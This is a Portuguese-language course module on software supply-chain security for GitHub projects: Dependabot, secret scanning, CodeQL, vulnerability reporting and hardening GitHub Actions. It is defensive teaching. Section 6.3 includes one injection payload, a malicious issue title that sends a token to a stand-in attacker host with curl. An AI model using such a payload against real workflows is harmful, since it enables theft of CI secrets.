

# Módulo 10 · Segurança da cadeia de suprimentos

> **Você vai sair daqui sabendo:** por que o código que você *não* escreveu (dependências, ações, ferramentas de build) é a maior superfície de ataque de um projeto; usar **Dependabot**, **secret scanning** com *push protection* e **code scanning** (CodeQL); receber vulnerabilidades por relato privado; e blindar o GitHub Actions — ações fixadas por SHA, **lockfiles de workflow**, permissões mínimas, a injeção de script e o caso `pull_request_target`.

⏱ 5–6 h · 🧪 [Laboratório](../../laboratorio/) · ✍️ [Exercícios](exercicios/)

---

## 1. Cenário

Março de 2025: a ação `tj-actions/changed-files`, usada por dezenas de milhares de repositórios, foi comprometida. O invasor **moveu as tags** de versão para um commit malicioso que imprimia os segredos dos workflows nos logs (CVE-2025-30066). Quem usava `@v45` executou o código do atacante sem mudar uma linha. Quem tinha fixado por **SHA**, não. Ataques assim — a pacotes npm/PyPI, a ações, a contas de mantenedores — são o motivo deste módulo existir.



## 2. Dependências: Dependabot

| Recurso | O que faz | Onde liga |
|---|---|---|
| **Grafo de dependências** | lê manifestos e lockfiles; exporta **SBOM** (SPDX) | ligado em públicos; *Settings → Code security* |
| **Dependabot alerts** | avisa quando uma dependência tem vulnerabilidade conhecida (GitHub Advisory Database) | *Settings → Code security* |
| **Dependabot security updates** | abre PR atualizando para a versão corrigida | idem |
| **Dependabot version updates** | abre PRs para manter tudo atualizado, no ritmo que você definir | arquivo `.github/dependabot.yml` |

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions     # atualiza as ações E os SHAs fixados
    directory: /
    schedule: { interval: weekly }
    groups:
      acoes: { patterns: ["*"] }          # um PR só para todas as ações
  - package-ecosystem: npm
    directory: /
    schedule: { interval: weekly }
    open-pull-requests-limit: 5
    cooldown:
      default-days: 7                     # versão nova só depois de 7 dias "no mundo"
    groups:
      dev: { dependency-type: development }
```

> 🧠 **Cooldown** é defesa contra pacotes sequestrados: versões maliciosas costumam ser descobertas e removidas em horas ou dias. Esperar alguns dias antes de adotar uma versão nova evita ser a primeira vítima. Atualizações **de segurança** ignoram o cooldown.

```bash
gh api repos/aluno/loja/dependabot/alerts --jq '.[] | "\(.security_advisory.severity)\t\(.dependency.package.name)"'
gh api repos/aluno/loja/dependency-graph/sbom > sbom.spdx.json
```

## 3. Segredos: secret scanning e push protection

- **Secret scanning** procura padrões de mais de 200 tipos de tokens (GitHub, AWS, Azure, Slack, Stripe…) em todo o histórico, issues e PRs; muitos emissores são **avisados automaticamente** e revogam o token.
- **Push protection** barra o push **antes** de o segredo entrar no repositório — ligada por padrão para usuários em repositórios públicos. Dá para liberar com justificativa (“é de teste”, “falso positivo”), e isso fica registrado.

```text
remote: - GITHUB PUSH PROTECTION
remote:   Push cannot contain secrets
remote:     —— GitHub Personal Access Token ——
remote:       locations: commit: 8f3e2a1  path: .env:2
```

## 4. Código: code scanning com CodeQL

O **CodeQL** analisa o código como um banco de dados e procura padrões de vulnerabilidade (injeção de SQL, XSS, caminho controlado pelo usuário…). Os achados aparecem em *Security → Code scanning* e **como comentários no PR**. Comece pelo **default setup** (um clique em *Settings → Code security*); passe para o **advanced setup** (um workflow) quando precisar customizar:

```yaml
- uses: github/codeql-action/init@<sha>
  with: { languages: javascript-typescript }
- uses: github/codeql-action/analyze@<sha>
```

## 5. Recebendo vulnerabilidades

- **`SECURITY.md`** diz como relatar em privado e quais versões são suportadas (este repositório tem um).
- **Private vulnerability reporting** (*Settings → Code security*) cria o botão “Report a vulnerability”: o relato vira um **security advisory** privado, onde você corrige em um fork temporário privado e publica com CVE.
- Nunca peça para relatarem vulnerabilidades em **issue pública**.

## 6. Blindando o GitHub Actions

### 6.1 Fixe ações por SHA — e trave tudo com o lockfile

```yaml
- uses: actions/checkout@v7                                          # ❌ tag: pode ser movida
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1  # ✅ v7.0.1 — imutável
```

| Camada | O que garante |
|---|---|
| **SHA de 40 caracteres** | a ação direta não muda |
| **Política “exigir SHA”** (*Settings → Actions → General*, também em contas Free) | ninguém consegue usar ação por tag no repositório/organização |
| **Releases imutáveis** de ações | o autor não consegue reescrever uma versão publicada |
| **Lockfile de workflow** (`.github/workflows/actions.lock`, GA em 28/10/2026) | trava também as **dependências transitivas** (ações que uma ação composta usa), mantendo a tag legível no YAML |

```bash
gh extension install github/gh-actions-lock
gh actions-lock                   # gera/atualiza .github/workflows/actions.lock
gh actions-lock --verify          # no CI: falha se o lockfile estiver desatualizado
```

### 6.2 Permissões mínimas

`permissions: {}` (ou `contents: read`) no topo, e só o necessário por job (Módulo 08). Um token que só lê não publica versão maliciosa.

### 6.3 Injeção de script — o erro mais comum

```yaml
# ❌ o título do issue é COLADO no script antes de rodar
run: echo "Novo issue: ${{ github.event.issue.title }}"
# título malicioso:  x"; curl -d "$GH_TOKEN" https://atacante.example; echo "
```

```yaml
# ✅ o título vira uma VARIÁVEL de ambiente — dado, não código
env:
  TITULO: ${{ github.event.issue.title }}
run: echo "Novo issue: $TITULO"
```

Campos perigosos (controlados por quem abre issue/PR): `title`, `body`, `head_ref` (nome da branch!), `comment.body`, `review.body`, `commits.*.message`, `pages.*.page_name`… O exemplo 01 mostra o ataque acontecendo.

### 6.4 `pull_request_target`: poder demais para código de fora

`pull_request_target` roda no contexto do repositório **base**, com segredos e token de escrita — mesmo para PRs vindos de forks. Se o workflow fizer checkout do código do PR e executá-lo, o autor do PR rouba tudo (“pwn request”). O GitHub vem fechando essa porta:

| Data | Mudança |
|---|---|
| 18/06/2026 | `actions/checkout` **v7** passa a **recusar** por padrão o checkout de código de fork em `pull_request_target` e `workflow_run` |
| 17/09/2026 | GA das proteções de execução de workflow; regra padrão que **desliga `pull_request_target` em repositórios públicos**, em modo de avaliação |
| 09 e 16/11/2026 | *brownouts*: a regra é aplicada por 2 horas, para quem depende dela perceber |
| **02/12/2026** | **bloqueio permanente** em repositórios públicos sem uma política de eventos que o permita |

Regra prática: para **testar** código de PR, use `pull_request` (sem segredos). Use `pull_request_target` só para tarefas que **não** executam o código do PR (rotular, comentar), e com permissões mínimas.

### 6.5 Audite com ferramentas

- **zizmor** — auditor de segurança de workflows: tags não fixadas, injeção, `pull_request_target` perigoso, credenciais persistidas. Este repositório roda o zizmor no CI.
- **OpenSSF Scorecard** — nota de práticas de segurança de um projeto.
- **Atestações** (Módulo 09): `gh attestation verify` prova de onde veio um binário.

## 7. Armadilhas comuns

- **Fixar por SHA de um fork** (o “impostor commit”): o SHA existe na rede de forks, mas não no repositório oficial. Confira que o SHA é de uma tag do repositório certo — o Dependabot e o `gh actions-lock` fazem isso por você.
- **Desligar push protection “porque atrapalha”** — o atraso de 1 minuto é muito mais barato que rotacionar uma chave vazada.
- **Ignorar alertas do Dependabot** até virarem centenas: configure *auto-triage rules* e agrupe updates.
- **Segredo em artefato, cache ou log** — `::add-mask::` para valores derivados; nunca `echo` de segredo.

## 📚 Fontes oficiais

- Segurança da cadeia de suprimentos: <https://docs.github.com/pt/code-security/supply-chain-security>
- Opções do dependabot.yml (inclui cooldown): <https://docs.github.com/pt/code-security/reference/supply-chain-security/dependabot-options-reference>
- Exportar SBOM: <https://docs.github.com/pt/code-security/how-tos/secure-your-supply-chain/establish-provenance-and-integrity/exporting-a-software-bill-of-materials-for-your-repository>
- Secret scanning e push protection: <https://docs.github.com/pt/code-security/secret-scanning/introduction/about-secret-scanning>
- Code scanning com CodeQL: <https://docs.github.com/pt/code-security/code-scanning/introduction-to-code-scanning/about-code-scanning-with-codeql>
- Relato privado de vulnerabilidades: <https://docs.github.com/pt/code-security/security-advisories/working-with-repository-security-advisories/configuring-private-vulnerability-reporting-for-a-repository>
- Uso seguro do Actions (injeção, pinning): <https://docs.github.com/pt/actions/reference/security/secure-use>
- Lockfiles de workflow: <https://docs.github.com/pt/actions/concepts/security/workflow-dependency-lockfiles>
- `pull_request_target` bloqueado por padrão (changelog, 02/11/2026): <https://github.blog/changelog/2026-11-02-pull_request_target-blocked-by-default-december-2>
- checkout v7 e `pull_request_target` (changelog, 18/06/2026): <https://github.blog/changelog/2026-06-18-safer-pull_request_target-defaults-for-github-actions-checkout>
- zizmor: <https://docs.zizmor.sh> · OpenSSF Scorecard: <https://scorecard.dev>

---

<sub>© 2026 Prof. Daniel Santos · Curso de GitHub · conteúdo sob CC BY-NC-SA 4.0 · <a href="../../NOTICE.md">aviso de direitos</a></sub>
